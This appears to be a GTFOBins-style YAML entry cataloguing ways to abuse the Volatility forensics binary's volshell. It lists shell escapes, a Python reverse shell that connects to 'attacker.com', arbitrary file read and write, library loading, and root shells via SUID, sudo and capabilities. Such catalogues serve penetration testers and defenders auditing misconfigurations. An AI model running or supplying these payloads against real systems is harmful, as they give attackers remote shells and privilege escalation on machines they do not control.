 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: | 
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        \_\_import\_\_("os").system("/bin/sh")
  reverse-shell:
    - description: Run ``netcat -lp 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os,subprocess
        shell = "import sys,socket,os,pty;s=socket.socket();s.connect((%s,int(%s)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\\"/bin/sh\\\")"%(repr(os.getenv("RHOST")),repr(os.getenv("RPORT")))
        subprocess.call(["/bin/sh","-c","python3 -c \"%s\""%shell])
  file-write:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        open("file_to_write","w+").write("DATA")
  file-read:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        print(open("file_to_read").read())
  library-load:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        from ctypes import cdll; cdll.LoadLibrary("lib.so")
  suid:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.execl("/bin/sh", "sh", "-p")
  sudo:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.system("/bin/sh")
  capabilities:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.setuid(0);os.system("/bin/sh")
---
```

